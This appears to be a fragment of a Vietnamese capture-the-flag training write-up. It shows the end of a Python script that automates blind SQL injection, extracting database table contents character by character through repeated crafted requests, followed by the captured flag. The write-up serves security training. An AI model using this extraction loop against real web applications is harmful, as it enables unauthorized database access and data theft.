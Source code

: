 ```python

            response_add = requests.post(url=url + post_delete, data=json_data_add,  allow_redirects=False, verify=False)
            response_delete = requests.post(url=url + post_delete, data=json_data,  allow_redirects=False, verify=False)
            response_result = requests.get(url=url + post_delete, data=json_data_get, allow_redirects=False, verify=False)
            response_data = json.loads(response_result.text)
            print(payload)
            if response_data == "EMPTY":
                table_string_content+=char
                break
    content_table = table_string_content.split(",")
    print(content_table)
    break
```

Chạy nó và bạn sẽ lấy được flag:
![Alt text](/img/vsl-internal-2023/image46.png)

![Alt text](/img/vsl-internal-2023/image47.png)

Chi tiết cách nó hoạt động, bọn mình sẽ giải thích vào những buổi training sau.

`FLAG: vku{levle_sqli_you_4re_7he_b3st}`
